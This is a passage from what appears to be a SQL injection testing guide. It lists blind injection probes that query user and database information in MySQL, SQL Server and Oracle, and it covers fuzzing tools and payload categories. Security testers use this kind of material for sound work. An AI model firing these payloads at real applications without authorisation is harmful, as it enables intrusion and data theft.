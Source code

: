 **System Information Functions**
```sql
-- User information
' AND USER()!='root'--
' AND CURRENT_USER()!='admin'--
' AND USER_NAME()!='sa'--  (SQL Server)

-- Database information
' AND DATABASE()!='mysql'--
' AND DB_NAME()!='master'--  (SQL Server)
' AND (SELECT name FROM v$database)!='XE'--  (Oracle)
```

### FUZZ Testing

Automated testing using various payloads to identify vulnerabilities through application behavior analysis.

#### FUZZ Testing Tools

**beSTORM**
- Commercial fuzzing platform
- Protocol-aware fuzzing
- SQL injection payload generation
- Automated vulnerability detection

**Burp Suite FUZZ Testing**
- Intruder module for payload delivery
- Custom payload lists
- Position-based fuzzing
- Response analysis and filtering

**AppScan Standard**
- IBM security testing tool
- Automated SQL injection detection
- Comprehensive payload database
- Integration with development workflows

**SnapFuzz**
- Specialized SQL injection fuzzer
- Database-specific payload generation
- Error pattern recognition
- Automated exploitation attempts

#### FUZZ Testing Methodology

**Payload Categories**
```sql
-- Basic injection characters
' " ; \ ` | & $ % # @

-- SQL keywords
SELECT INSERT UPDATE DELETE DROP UNION WHERE ORDER BY

-- Database functions
USER() DATABASE() VERSION() SLEEP() CONCAT()

-- Comment sequences
-- # /* */ <!--

-- Numeric operations
1+1 2-1 3*2 4/2 5%3

-- Boolean operations
AND OR NOT TRUE FALSE 1=1 1=2
```

